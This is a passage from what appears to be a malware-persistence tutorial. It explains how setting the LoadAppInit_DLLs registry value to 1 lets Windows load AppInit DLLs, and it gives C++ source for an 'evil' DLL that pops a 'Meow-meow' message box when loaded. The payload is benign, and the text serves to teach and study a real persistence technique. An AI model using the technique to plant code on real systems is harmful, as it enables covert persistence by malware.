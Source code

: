 ![pers](/assets/images/55/2022-05-16_01-20.png){:class="img-responsive"}    

Microsoft to protect Windows users from malware has disabled by default the loading of DLLs's via AppInit (`LoadAppInit_DLLs`). However, setting the registry key `LoadAppInit_DLLs` to value `1` will enable this feature.

### practical example

First of all, create "evil" DLL. As usual I will take "meow-meow" messagebox pop-up logic:

```cpp
/*
evil.cpp
inject via Appinit_DLLs
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/05/16/malware-pers-5.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
  MessageBoxA(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return TRUE;
  }
}

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    runMe();
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```
